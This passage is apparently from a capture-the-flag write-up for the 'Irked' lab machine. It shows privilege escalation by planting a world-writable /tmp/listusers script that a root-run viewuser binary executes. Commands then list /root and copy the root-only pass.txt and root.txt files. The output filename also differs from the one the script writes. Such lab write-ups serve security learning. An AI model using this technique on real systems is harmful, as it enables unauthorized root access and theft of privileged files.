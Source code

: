 When we compare this output with our local linux device. See if there's any differences.

Procmail and viewuser were our main differences. Let's see what viewuser does:
```
djmardov@irked:~/Documents$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           Dec 31 05:23 (:0)
djmardov pts/1        Dec 31 05:57 (10.10.14.6)
sh: 1: /tmp/listusers: not found
```

interesting, what happens if we create a `/tmp/listusers` script?
```
ls -la /root > /tmp/rootdir
```

When we try running viewuser again we get an error:
```
djmardov@irked:~/Documents$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           Dec 31 05:23 (:0)
djmardov pts/1        Dec 31 05:57 (10.10.14.6)
sh: 1: /tmp/listusers: Permission denied
```

Luckily this is easy to fix, we just need to give full control to the listusers file `chmod 777 /tmp/listusers`

This time when we run the script we get a rootdir file created with the contents of the /root directory:
```
djmardov@irked:~$ cat /tmp/test
total 28
drwx------  2 root root 4096 Nov  3 04:25 .
drwxr-xr-x 21 root root 4096 May 15  2018 ..
lrwxrwxrwx  1 root root    9 Nov  3 04:25 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-------  1 root root   12 Nov  3 04:43 .nano_history
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
-rw-r--r--  1 root root   17 May 14  2018 pass.txt
-rw-------  1 root root   33 May 15  2018 root.txt
```


No ssh keys, but there is a pass.txt. Next up we try to grab a copy of that and for good measure we can grab the root.txt as well:
```
cp /root/pass.txt /tmp/pass.txt
chmod 777 /tmp/pass.txt
cp /root/root.txt /tmp/root.txt
chmod 777 /tmp/root.txt
```

Turns out the pass.txt is the same as the one hidden in the image and is not the password for the root user, so we just grab the root.txt and call it a day.
